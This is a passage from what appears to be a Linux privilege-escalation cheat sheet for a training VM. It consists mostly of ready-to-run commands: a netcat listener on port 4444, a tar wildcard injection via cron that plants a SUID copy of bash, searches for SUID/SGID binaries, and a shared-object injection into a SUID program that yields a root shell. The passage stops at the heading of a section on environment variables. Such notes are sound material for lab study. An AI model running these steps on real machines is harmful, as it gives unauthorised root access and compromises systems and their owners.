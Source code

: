 ````
nc -nvlp 4444
````
#### CronJobs - Wildcards No msfvenom
````
echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
````
- Wait the 1 minute or time defined by cron settings
- Once the cronjob hits run:
````
/tmp/bash -p
id
````
### SUID and SGID Executables --GTFO Bins
- Find all the SUID/SGID executables on the Debian VM:
````
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
````
- Note that /usr/sbin/exim-4.84-3 appears in the results. Exploit is in this repo. 
- Exploit-DB, Google, and GitHub are good places to search!
- Check GTFO Bins and Google for SUID/SGID!!!
### SUID-Shared Object Injection
- Detection
````
find / -type f -perm -04000 -ls 2>/dev/null
````
- Make note of all the SUID binaries
- The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.
- First, execute the file and note that currently it displays a progress bar before exiting:
- Run strace on the file and search the output for open/access calls and for "no such file" errors:
````
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
````
- Output Looking for 
````
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
````
- Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.
- Create the .config directory for the `libcalc.so` file:
````
mkdir /home/user/.config
````
- Example shared object code can be found at `/home/user/tools/suid/libcalc.c`. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:
````
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
IF ERRORS TRY:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
````
- Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.
````
/usr/local/bin/suid-so
````
- It will be an euid=0 not a uid=0!!!
### SUID and SGID Environment Variables
- Detection
````
find / -type f -perm -04000 -ls 2>/dev/null
````